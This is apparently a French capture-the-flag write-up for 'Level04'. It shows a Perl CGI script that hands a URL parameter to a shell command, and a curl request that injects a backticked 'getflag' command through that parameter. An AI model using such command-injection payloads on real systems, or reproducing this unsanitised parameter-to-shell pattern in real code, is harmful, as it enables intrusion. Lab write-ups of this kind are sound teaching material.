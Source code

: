 # Level04:

**En se connectant sur le level04 on y voit un fichier perl qui contient le code suivant:**

**recupere les parametres de l'url dans la variable param**
**\$y prend la valeur du premier parametre de la fonction**
**Affiche $y**
**Execute la fonction x juste au dessus en recuperant la variable "x" depuis les parametres de l'url**

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print 'echo $y 2>&1';
}
x(param("x"));
```

**On peut assez simplement exploiter le script en faisant un call avec curl**
*curl localhost:4747/level04.pl?x='\`getflag\`'*

![finaly.png](./finaly.png)

